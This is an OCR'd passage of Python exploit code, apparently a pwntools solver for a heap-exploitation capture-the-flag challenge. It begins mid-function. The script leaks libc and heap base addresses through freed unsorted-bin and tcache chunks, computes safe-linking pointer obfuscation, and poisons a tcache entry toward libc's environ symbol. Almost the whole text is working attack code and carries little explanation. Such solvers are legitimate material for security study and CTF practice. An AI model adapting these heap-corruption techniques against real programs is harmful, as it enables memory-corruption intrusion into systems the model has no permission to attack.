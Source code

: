 ```python
        r.sendline(str(idx).encode())
        print(r.clean(timeout=timeout).decode())
        r.sendline(val)

    def read(idx):
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'3')
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(idx).encode())
        return r.clean(timeout=1)

    def depart():
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'5')

    def custom_u64(leaked_bytes):
        leak = 0
        counter = 0
        while leaked_bytes != '':
            if leaked_bytes.startswith('\\'):
                leak += int(leaked_bytes[2:4], 16) << (8 * counter)
                leaked_bytes = leaked_bytes[4:]
            else:
                leak += ord(leaked_bytes[0]) << (8 * counter)
                leaked_bytes = leaked_bytes[1:]

            counter += 1
        return leak

    def obfuscate(address):
        return address ^ ( ( heap + 0x2d0 ) >> 12 ) # 0x2d0 is offset of first tcache chunk

    def get_leaks():
        # Remember: each create() call allocates 2 chunks on the heap
        create(0, 0x20, b'chunk0', 0x20, b'value0')
        create(1, 0x30, b'chunk1', 0x30, b'value1')
        create(2, 0x10, b'chunk2', 0x10, b'value2')
        create(3, 0x10, b'chunk3', 0x500, b'value3')
        create(4, 0x10, b'barrier', 0x10, b'barrier')

        free(2)     # Free in reverse order
        free(1)     # because tcachebin also
        free(0)     # fills in LIFO layout.
        free(3)     # Goes in unsorted bin.

        data = read(3) # Read libc leak ( via unsorted bin )
        data = data.split(b'val = ')[1].split(b'\\x00')[0].decode()
        leak = custom_u64(data)
        log.info('libc leak @ %s' % hex(leak))
        libc.address = leak - 0x21ace0 # Calculated with debugger
        log.success('libc base @ %s' % hex(libc.address))

        data = read(0) # Read heap base leak ( via tcache bin )
        data = data.split(b'key = ')[1].split(b'\\x00')[0].decode()
        global heap
        heap = custom_u64(data) << 12
        log.success('heap base @ %s' % hex(heap))


    # good luck pwning :)

    get_leaks()
    update(0, p64( obfuscate(libc.sym.environ - 0x10) ))
```
